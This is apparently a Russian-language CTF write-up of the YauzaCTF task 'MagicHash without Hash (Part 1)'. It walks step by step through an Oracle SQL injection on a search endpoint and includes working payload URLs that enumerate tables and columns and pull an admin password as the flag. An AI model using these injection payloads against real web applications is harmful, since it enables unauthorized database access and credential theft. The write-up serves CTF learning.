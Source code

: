 # Райтап на таск MagicHash without Hash (Part 1) из YauzaCTF

Открыв страницу, мы видим поле для ввода текста и список результатов. Введя что-нибудь и посмотрев на запрос в developer tools, мы видим, что запрос имеет вид:
`/search.php?f=system.findnews&arg=[%22%25(текст)%25%22]`
Поменяв параметр f на рандомный, получаем ошибку:
> ORA-00904: "ASDF": invalid identifier

Видим, что:
* На бекенде стоит Oracle Database
* Параметр `f` управляет названием таблицы или процедуры

Подставив в `f` название какой-либо стандартной таблицы, получаем ошибку:
> ORA-00904: "SYSTEM"."ALL_TABLES": invalid identifier

Подставив название функции с одним параметром получаем результат.
`/search.php?f=UPPER&arg=["%25s%25"]`
> %S%

Это означает, что `f` управляет названием вызываемой функции, а `arg` - её параметрами. Но мне не удалось найти функцию, которая бы дала доступ к нужным данным, значит, придется применять SQL инъекцию.

Можно догадаться, что в исходном коде бекенда запрос имеет вид наподобие:
`SELECT $_GET['f'](implode(',', $_GET['arg'])) FROM DUAL`

Нам нужно выйти за пределы параметра функции в кавычках, поэтому немного поигравшись с параметрами, я написал такой запрос:
`/search.php?f=CONCAT&arg=["1","2'||(SELECT+1+FROM+DUAL))+FROM+DUAL+--"]`
Вместо `SELECT 1 FROM DUAL` тут можно вставить любой запрос, возвращающий не больше одной строки. Я писал запросы с плюсами вместо пробелов, чтобы они не попадали в urlencode и было читаемо, но можно и без них.

Таким образом, у нас запрос к базе примет следующий вид:
`SELECT CONCAT('1', '2'||(SELECT+1+FROM+DUAL))+FROM+DUAL+--') FROM DUAL`
Часть после `--` считается комментарием, и не обрабатывается сервером. То есть в очищенной форме запрос будет таким:
`SELECT CONCAT('1', '2' || (SELECT 1 FROM DUAL)) FROM DUAL`

Попробуем применить его, и увидим, что в ответ сервер вернул `12\1`, то есть 1 и 2 из параметров CONCAT, и 1, который вернул наш запрос. Кто знает, откуда взялся обратный слеш, напишите :).

Теперь мы можем выполнять любые запросы к базе, и видеть результат их выполнения. Но есть пара ограничений:
* Мы не можем использовать кавычки, так как это снова сломает запрос. Вместо этого для создания строк воспользуемся функцией CHR, которая возвращает символ по ascii коду, и оператором конкатенации ||. Например, строка 'test' после обработки будет 'CHR(116)||CHR(101)||CHR(115)||CHR(116)'
* Нельзя использовать запросы, которые возвращают больше одной строки (тогда оператор конкатенации не сможет склеить строки). Чтобы обойти это, воспользуемся оператором `OFFSET N ROWS FETCH NEXT 1 ROWS ONLY`, где N - номер строки, которую мы хотим получить. Таким образом мы будем получать по одной строке за раз.

Посмотрим, какие таблицы есть в базе. Функция для получения результатов называлась findnews, поэтому я решил поискать таблицы со словом news в названии. Получить список всех таблиц можно из таблицы ALL_TABLES, поле с названием имеет имя TABLE_NAME. Для поиска по таблице используем TABLE_NAME LIKE '%NEWS%', но не забываем про ограничения.
`/search.php?f=CONCAT&arg=["1","2'||(SELECT+TABLE_NAME+FROM+ALL_TABLES+WHERE+TABLE_NAME+LIKE+CHR(37)||CHR(78)||CHR(69)||CHR(87)||CHR(83)||CHR(37)+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY))+FROM+DUAL+--"]`
Получаем один результат: YAUZANEWS. Посмотрим владельца этой таблицы (колонка OWNER):
`/search.php?f=CONCAT&arg=["1","2'||(SELECT+OWNER+FROM+ALL_TABLES+WHERE+TABLE_NAME+LIKE+CHR(89)||CHR(65)||CHR(85)||CHR(90)||CHR(65)||CHR(78)||CHR(69)||CHR(87)||CHR(83)+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY))+FROM+DUAL+--"]`
Результат: SYSTEM. Посмотрим, какими ещё таблицами владеет этот пользователь. Проматывая строки параметром N после OFFSET, уже на N=2 находим таблицу YAUZAADMIN. Посмотрим её структуру по таблице ALL_TAB_COLUMNS.
`/search.php?f=CONCAT&arg=["1","2'||(SELECT+column_name+FROM+ALL_TAB_COLUMNS+WHERE+table_name=CHR(89)||CHR(65)||CHR(85)||CHR(90)||CHR(65)||CHR(65)||CHR(68)||CHR(77)||CHR(73)||CHR(78)+OFFSET+0+ROWS+FETCH+NEXT+1+ROWS+ONLY))+FROM+DUAL+--"]`
Изменяя параметр после OFFSET, узнаем структуру таблицы: ADMIN_ID,LOGIN,PASSWORD. В таблице всего одна строка, и пароль лежит в PASSWORD. Получим его:
`/search.php?f=CONCAT&arg=["1","2'||(SELECT+password+FROM+SYSTEM.YAUZAADMIN))+FROM+DUAL+--"]`
> 12\YauzaCTF{F1rstL3v31c0mpl3t3d}

Вот и наш флаг. Весь таск занял у меня чуть меньше трех часов, большую часть которых занял поиск инъекции.
